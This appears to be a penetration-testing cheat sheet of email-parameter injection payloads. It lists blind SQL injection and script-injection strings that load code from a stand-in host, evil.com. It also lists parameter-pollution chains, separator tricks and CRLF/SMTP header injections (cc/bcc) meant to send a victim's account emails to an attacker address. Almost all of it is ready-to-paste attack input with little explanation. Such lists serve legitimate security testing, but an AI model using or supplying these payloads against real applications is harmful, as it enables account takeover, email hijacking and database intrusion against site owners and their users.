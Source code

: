 
## Blind SQLi 
```
"'--><script/src=//evil.com></script>"@example.com
"'-sleep(5)-'"@mail.local
```

## Comma saperator with HPP chain

```
{"email":"Victim@gmail.com,Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com,Attacker@gmail.com"}
```

## Semicolon saperator with HPP chain
```
{"email":"Victim@gmail.com;Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com;Attacker@gmail.com"}
```

## Space saperator with HPP chain
```
{"email":"Victim@gmail.com%20Attacker@gmail.com","email":"Victim@gmail.com"}
{"email":"Victim@gmail.com","email":"Victim@gmail.com%20Attacker@gmail.com"}
```

## Carbon Copy (CC:) with HPP chain
```
{"email":"Victim@mail.com%0Acc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Acc:Attacker@mail.com"}
```

## Blind Carbon Copy (BCC:) with HPP chain
```
{"email": "Victim@mail.com%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com%0Abcc:Attacker@mail.com"}
```

## Parameter Pollution
```
email=victim@gmail.com&email=attacker@gmail.com
```

## CRLF and SMTP Inejciton
```
email=victim@gmail.com%0a%0dcc:attacker@gmail.com
{"email":["victim@gmail.com","attacker@gmail.com"]}
```

## Using Seperators
```
email=victim@gmail.com,attacker@gmail.com
email=victim@gmail.com|attacker@gmail.com
email=victim@gmail.com%20attacker@gmail.com
```

## HPP chain with Bypass the mail() function protection against email header injection
```
{"email":"Victim@mail.com\r\n \ncc: Attacker@mail.com","email":"Victim@mail.com"}
{"email":"Victim@mail.com","email":"Victim@mail.com\r\n \ncc: Attacker@mail.com"}
```
## Array of emails
```
{"email":["victim@mail.com","attacker@mail.com"]}
```
